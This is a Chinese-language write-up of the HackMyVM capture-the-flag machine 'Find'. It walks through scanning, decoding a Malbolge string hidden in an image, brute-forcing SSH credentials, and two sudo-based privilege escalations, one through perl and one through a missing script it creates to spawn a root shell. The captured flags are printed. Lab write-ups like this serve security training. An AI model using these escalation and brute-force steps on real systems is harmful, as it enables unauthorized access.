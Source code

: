 # Find

2025.02.04 https://hackmyvm.eu/machines/machine.php?vm=Find

[video](https://www.bilibili.com/video/BV1jiPBeqEo5?spm_id_from=333.788.recommend_more_video.-1&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

直接看 80 web 服务，一般 22 ssh 不会出现直接问题。web 首页是 apache 的服务页面，gobuster 扫描一下隐藏目录。

http://192.168.5.40/robots.txt 提示: find user :) 同时发现一个图片: http://192.168.5.40/cat.jpg 。可能有隐写，exiftool 发现 https://commons.wikimedia.org/wiki/File:Cat03.jpg，原图中也有一个cat.jpg，但是这两个cat图片的内容不一样，对比后发现在cat.jpg的末尾中多出来了一串字符串：

```
>C<;_"!~}|{zyxwvutsrqponmlkjihgfedcba`_^]\[ZYXWVUTSRQPONMLKJ`_dcba`_^]\Uy<XW
VOsrRKPONGk.-,+*)('&%$#"!~}|{zyxwvutsrqponmlkjihgfedcba`_^]\[ZYXWVUTSRQPONML
KJIHGFEDZY^W\[ZYXWPOsSRQPON0Fj-IHAeR
```

经过搜索，找到了这个解密网站: https://www.malbolge.doleczek.pl/ 解密后得到用户名: missyred

目前得到了用户名，根据提示，可能需要这个用户名登陆 ssh，尝试 rockyouo 爆破，得到密码: iloveyou

登陆后，sudo -l 发现: (kings) /usr/bin/perl , 提权到用户 kings : sudo -u kings perl -e 'exec "/bin/bash";'

得到 user flag:

```
$ cat user.txt
f4e690f638c01bd8a19fb1349d40519c
```

sudo -l 发现: (ALL) NOPASSWD: /opt/boom/boom.sh 但是这个文件并不存在，我们可以手动创建，然后直接提权到 root。

```
mkdir -p /opt/boom/
echo '/bin/bash' > /opt/boom/boom.sh
chmod +x /opt/boom/boom.sh
sudo -u root /opt/boom/boom.sh
```

最终得到了 root flag:

```
root@find:~# cat root.txt
c8aaf0f3189e000006c305bbfcbeb790
```
